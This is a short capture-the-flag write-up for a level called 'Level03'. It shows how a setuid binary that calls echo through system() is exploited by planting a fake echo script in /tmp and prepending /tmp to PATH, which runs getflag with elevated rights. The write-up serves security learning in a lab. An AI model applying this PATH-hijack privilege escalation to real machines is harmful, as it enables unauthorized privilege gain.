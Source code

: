 # Level03

## Exploring the computer

```bash 
$ ls -la
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
```

```bash 
$ file level03
executable with setuid and setgid active
```
```bash 
$ ./level03
Exploit me
```

## Learning more about the executable 

```bash
$ ltrace ./level03 
[...]
system("/usr/bin/env echo Exploit me"Exploit me)
[...]
```

We see that the executable calls the echo function with system.
I did a previous CTF where we had to change the PATH to have a custom echo command, we will do the same here.

## Implementing our own echo command

```bash
$ echo "/bin/sh -c 'getflag'" > /tmp/echo
$ chmod 755 /tmp/echo
```

```bash
$ export PATH=/tmp:$PATH
```

We create and add our own echo to PATH to overwrite the standard  

I make sure that tmp has been added to the path :
`
```bash
$ which echo 
/tmp/echo
```
Okay our echo has taken over the 'normal' one

## Getting the flag

```bash
$ ./level03 
Check flag.Here is your token : ******************
```
